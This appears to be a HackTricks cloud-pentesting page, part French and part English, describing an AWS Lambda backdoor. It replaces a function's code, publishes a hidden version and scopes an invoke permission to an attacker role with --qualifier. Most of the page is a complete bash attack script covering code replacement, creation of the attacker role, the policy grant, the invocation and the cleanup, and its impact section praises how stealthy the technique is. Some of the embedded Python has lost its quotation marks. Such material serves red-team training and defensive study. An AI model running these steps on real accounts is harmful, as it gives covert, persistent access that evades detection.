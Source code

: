 # AWS - Lambda Alias-Scoped Resource Policy Backdoor (Invoke specific hidden version)

{{#include ../../../../banners/hacktricks-training.md}}

## Résumé

Create a hidden Lambda version with attacker logic and scope a resource-based policy to that specific version (or alias) using the `--qualifier` parameter in `lambda add-permission`. Grant only `lambda:InvokeFunction` on `arn:aws:lambda:REGION:ACCT:function:FN:VERSION` to an attacker principal. Normal invocations via the function name or primary alias remain unaffected, while the attacker can directly invoke the backdoored version ARN.

Ceci est plus discret que d'exposer un Function URL et ne change pas l'alias principal de trafic.

## Permissions requises (attaquant)

- `lambda:UpdateFunctionCode`, `lambda:UpdateFunctionConfiguration`, `lambda:PublishVersion`, `lambda:GetFunctionConfiguration`
- `lambda:AddPermission` (to add version-scoped resource policy)
- `iam:CreateRole`, `iam:PutRolePolicy`, `iam:GetRole`, `sts:AssumeRole` (to simulate an attacker principal)

## Étapes d'attaque (CLI)

<details>
<summary>Publier une version cachée, ajouter une permission limitée par qualifier, invoquer en tant qu'attaquant</summary>
```bash
# Vars
REGION=us-east-1
TARGET_FN=<target-lambda-name>

# [Optional] If you want normal traffic unaffected, ensure a customer alias (e.g., "main") stays on a clean version
# aws lambda create-alias --function-name "$TARGET_FN" --name main --function-version <clean-version> --region "$REGION"

# 1) Build a small backdoor handler and publish as a new version
cat > bdoor.py <<PY
import json, os, boto3

def lambda_handler(e, c):
ident = boto3.client(sts).get_caller_identity()
return {"ht": True, "who": ident, "env": {"fn": os.getenv(AWS_LAMBDA_FUNCTION_NAME)}}
PY
zip bdoor.zip bdoor.py
aws lambda update-function-code --function-name "$TARGET_FN" --zip-file fileb://bdoor.zip --region $REGION
aws lambda update-function-configuration --function-name "$TARGET_FN" --handler bdoor.lambda_handler --region $REGION
until [ "$(aws lambda get-function-configuration --function-name "$TARGET_FN" --region $REGION --query LastUpdateStatus --output text)" = "Successful" ]; do sleep 2; done
VER=$(aws lambda publish-version --function-name "$TARGET_FN" --region $REGION --query Version --output text)
VER_ARN=$(aws lambda get-function --function-name "$TARGET_FN:$VER" --region $REGION --query Configuration.FunctionArn --output text)
echo "Published version: $VER ($VER_ARN)"

# 2) Create an attacker principal and allow only version invocation (same-account simulation)
ATTACK_ROLE_NAME=ht-version-invoker
aws iam create-role --role-name $ATTACK_ROLE_NAME --assume-role-policy-document Version:2012-10-17 >/dev/null
cat > /tmp/invoke-policy.json <<POL
{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Allow",
"Action": ["lambda:InvokeFunction"],
"Resource": ["$VER_ARN"]
}]
}
POL
aws iam put-role-policy --role-name $ATTACK_ROLE_NAME --policy-name ht-invoke-version --policy-document file:///tmp/invoke-policy.json

# Add resource-based policy scoped to the version (Qualifier)
aws lambda add-permission \
--function-name "$TARGET_FN" \
--qualifier "$VER" \
--statement-id ht-version-backdoor \
--action lambda:InvokeFunction \
--principal arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/$ATTACK_ROLE_NAME \
--region $REGION

# 3) Assume the attacker role and invoke only the qualified version
ATTACK_ROLE_ARN=arn:aws:iam::$(aws sts get-caller-identity --query Account --output text):role/$ATTACK_ROLE_NAME
CREDS=$(aws sts assume-role --role-arn "$ATTACK_ROLE_ARN" --role-session-name htInvoke --query Credentials --output json)
export AWS_ACCESS_KEY_ID=$(echo $CREDS | jq -r .AccessKeyId)
export AWS_SECRET_ACCESS_KEY=$(echo $CREDS | jq -r .SecretAccessKey)
export AWS_SESSION_TOKEN=$(echo $CREDS | jq -r .SessionToken)
aws lambda invoke --function-name "$VER_ARN" /tmp/ver-out.json --region $REGION >/dev/null
cat /tmp/ver-out.json

# 4) Clean up backdoor (remove only the version-scoped statement). Optionally remove the role
aws lambda remove-permission --function-name "$TARGET_FN" --statement-id ht-version-backdoor --qualifier "$VER" --region $REGION || true
```
</details>

## Impact

- Fournit une backdoor discrète permettant d'invoquer une version cachée de la fonction sans modifier l'alias principal ni exposer une Function URL.
- Limite l'exposition à la seule version/alias spécifiée via la resource-based policy `Qualifier`, réduisant la surface de détection tout en conservant une invocation fiable pour l'attacker principal.

{{#include ../../../../banners/hacktricks-training.md}}
